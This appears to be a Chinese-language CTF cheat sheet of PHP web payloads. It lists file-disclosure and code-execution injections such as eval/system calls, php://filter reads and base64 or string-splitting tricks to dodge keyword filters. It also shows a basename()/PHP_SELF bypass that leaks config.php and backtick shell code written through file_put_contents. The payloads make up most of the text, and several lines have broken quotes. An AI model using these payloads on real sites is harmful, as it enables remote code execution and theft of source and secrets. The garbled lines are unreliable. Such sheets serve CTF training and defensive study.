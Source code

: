 u在线php运行：<https://www.jyshare.com/compile/1/>



## **php常见特殊函数和绕过**
**文件包含函数**
如果是$_POST，直接蚁剑连
c=highlight_file("config.php");        //文件内容包含高亮。
c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');

^
**代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。

eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"

eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```

^
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag


^

命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system

^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


^
## **file_put_contents()场景漏洞**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```